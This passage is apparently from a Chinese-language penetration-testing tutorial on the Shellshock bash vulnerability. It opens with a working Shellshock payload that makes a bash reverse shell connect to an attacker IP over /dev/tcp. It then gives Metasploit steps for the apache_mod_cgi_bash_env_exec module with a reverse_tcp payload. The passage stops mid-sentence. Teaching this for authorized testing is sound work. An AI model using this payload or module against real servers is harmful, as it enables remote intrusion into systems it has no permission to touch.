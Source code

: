 ```
() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"
```

![](img/00123.jpeg)

bashshell 将变量解释为命令并执行它，而不是接受变量作为字符序列。这看起来与前面讨论的命令注入缺陷非常相似。然而，这里的主要区别在于 bashshell 本身容易受到代码注入的影响，而不是网站。由于许多应用程序（如 DHCP、SSH、SIP 和 SMTP）都使用 bash shell，因此攻击面在很大程度上增加了。利用 HTTP 请求上的漏洞仍然是最常见的方法，因为 bash shell 通常与 CGI 脚本一起使用。

为了识别 web 服务器中的 CGI 脚本，除了使用代理分析请求和响应外，还可以使用**Nikto**和**DIRB**。

# 使用 Metasploit 进行开发

从终端（`msfconsole`启动 Metasploit 控制台。您需要选择`exploit/multi/http`下的`apache_mod_cgi_bash_env_exec`漏洞：

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec  
```

然后您需要使用`set`命令定义远程主机和目标 URI 值。您还需要选择使 web 服务器连接到攻击者机器的`reverse_tcp`有效负载。这可以通过导航到 linux | x86 | MeterMeter 找到。

确保本地主机（`SRVHOST`和本地端口（`SRVPORT`的值正确。您可以使用`set`命令设置这些值和其他值：

```
set SRVHOST 0.0.0.0
set SRVPORT 8080  
```

使用`0.0.0.0`主机，服务器将监听攻击者启用的所有网络接口。此外，请验证攻击者机器的选定端口上是否没有正在运行的服务：
